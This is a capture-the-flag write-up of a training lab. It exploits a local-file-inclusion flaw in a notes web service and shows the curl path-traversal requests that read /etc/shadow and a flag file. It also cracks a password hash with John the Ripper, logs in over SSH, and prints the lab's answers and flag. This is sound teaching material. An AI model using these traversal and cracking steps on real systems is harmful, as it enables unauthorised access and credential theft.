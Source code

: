 # [Day 15] LFI

## Instructions

Elf Charlie likes to make notes and store them on his server. Are you able to take advantage of this functionality and crack his password? 

Read the supporting materials [here](https://blog.tryhackme.com/lfi/).

## #1 - What is Charlie going to book a holiday to?

There is a web service running on default port 80/tcp. Let's see what the page looks like.

```php
$ curl -s 10.10.104.142
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
<meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
<link rel="stylesheet" href="/css/bootstrap.min.css">
<link rel="icon" type="image/png" href="imgs/notepad.png"/>
<title>Public Notes</title>

  </head>
  <style>
    .jumbotron {
      background-image: linear-gradient(-90deg, rgba(0, 0, 0, 0.5), rgba(34, 40, 43, 0.6) 100%), url("imgs/lfi.png");
      background-size: cover;
      object-fit: cover;
      color: white;
      padding: 8px;
    }
  </style>
  <body>

    <div class="jumbotron text-center">
      <img src="imgs/notepad.png">
      <h1>Public Notes</h1>
      <p>A place to store and view all my notes in one centralised place</p>
    </div>

    <div class="container">
      <div class="row">
        <div class="col-sm-4">
          <h3>Note1: Jingle Bells Lyrics</h3>
          <p id='note-1'><i>Loading...</i></p>
        </div>
        <div class="col-sm-4">
          <h3>Note2: Presents Log</h3>
          <p id='note-2'><i>Loading...</i></p>
        </div>
        <div class="col-sm-4">
          <h3>Note 3</h3>
          <p id='note-3'><i>Loading...</i></p>
        </div>
      </div>
    </div>
    <script src="/js/jquery.min.js"></script>
    <script src="/js/bootstrap.min.js"></script>
    <script>
      function getNote(note, id) {
        const url = '/get-file/' + note.replace(/\//g, '%2f')
        $.getJSON(url,  function(data) {
          document.querySelector(id).innerHTML = data.info.replace(/(?:\r\n|\r|\n)/g, '<br>');
        })
      }
      // getNote('server.js', '#note-1')
      getNote('views/notes/note1.txt', '#note-1')
      getNote('views/notes/note2.txt', '#note-2')
      getNote('views/notes/note3.txt', '#note-3')
    </script>
  </body>
</html>
```

The page loads 3 notes using a javascript function (`getNote()`). This function is calling a web service and makes a request to `/get-file/<file_name>`. Below is an example to request the content of `views/notes/note3.txt` (notice that you have to encode `/` as `%2F`):

~~~
$ curl -s http://10.10.104.142/get-file/views%2Fnotes%2Fnote3.txt
{"success":true,"info":"To do list:\n\n[-] Take Santa sleigh in for an MOT\n[-] Improve security on file inclusion\n[-] Go food shopping\n[-] Book holiday to Hawaii\n"}
~~~

As shown in the response above, Charlie is planning to go on holiday to `Hawaii`.

## #2 - Read /etc/shadow and crack Charlies password.

The script is not sanitizing the user input and it is possible to request any file, including `/etc/shadow`:

~~~
$ curl -s http://10.10.104.142/get-file/..%2F..%2F..%2Fetc%2Fshadow
{"success":true,"info":"root:*:18152:0:99999:7:::\ndaemon:*:18152:0:99999:7:::\nbin:*:18152:0:99999:7:::\nsys:*:18152:0:99999:7:::\nsync:*:18152:0:99999:7:::\ngames:*:18152:0:99999:7:::\nman:*:18152:0:99999:7:::\nlp:*:18152:0:99999:7:::\nmail:*:18152:0:99999:7:::\nnews:*:18152:0:99999:7:::\nuucp:*:18152:0:99999:7:::\nproxy:*:18152:0:99999:7:::\nwww-data:*:18152:0:99999:7:::\nbackup:*:18152:0:99999:7:::\nlist:*:18152:0:99999:7:::\nirc:*:18152:0:99999:7:::\ngnats:*:18152:0:99999:7:::\nnobody:*:18152:0:99999:7:::\nsystemd-timesync:*:18152:0:99999:7:::\nsystemd-network:*:18152:0:99999:7:::\nsystemd-resolve:*:18152:0:99999:7:::\nsystemd-bus-proxy:*:18152:0:99999:7:::\nsyslog:*:18152:0:99999:7:::\n_apt:*:18152:0:99999:7:::\nlxd:*:18152:0:99999:7:::\nmessagebus:*:18152:0:99999:7:::\nuuidd:*:18152:0:99999:7:::\ndnsmasq:*:18152:0:99999:7:::\nsshd:*:18152:0:99999:7:::\npollinate:*:18152:0:99999:7:::\nubuntu:!:18243:0:99999:7:::\ncharlie:$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:18243:0:99999:7:::\n"}
~~~

Charlie's hash is:
~~~
charlie:$6$oHymLspP$wTqsTmpPkz.u/CQDbheQjwwjyYoVN2rOm6CDu0KDeq8mN4pqzuna7OX.LPdDPCkPj7O9TB0rvWfCzpEkGOyhL.:18243:0:99999:7:::
~~~

Let's crack it with John the Ripper:

~~~
$ /data/src/john-1.9.0-jumbo-1/run/john --wordlist=/data/src/wordlists/rockyou.txt shadow.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (charlie)
1g 0:00:00:00 DONE (2020-05-03 11:42) 5.000g/s 5120p/s 5120c/s 5120C/s 123456..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed
~~~

Charlie's password is `password1`

## #3 - What is flag1.txt?

You can get the flag by 2 ways: LFI and SSH.

### LFI

We can use the previous LFI vulnerability to read the flag as follows:

~~~
$ curl -s http://10.10.104.142/get-file/..%2F..%2F..%2Fhome%2Fcharlie%2Fflag1.txt
{"success":true,"info":"THM{4ea2adf842713ad3ce0c1f05ef12256d}\n"}
~~~

### SSH

As there is a SSH service running on default port 22/tcp, we can also get the flag using the credentials found previously:

~~~
$ sshpass -p "password1" ssh charlie@10.10.104.142 cat flag1.txt
THM{4ea2adf842713ad3ce0c1f05ef12256d}
~~~
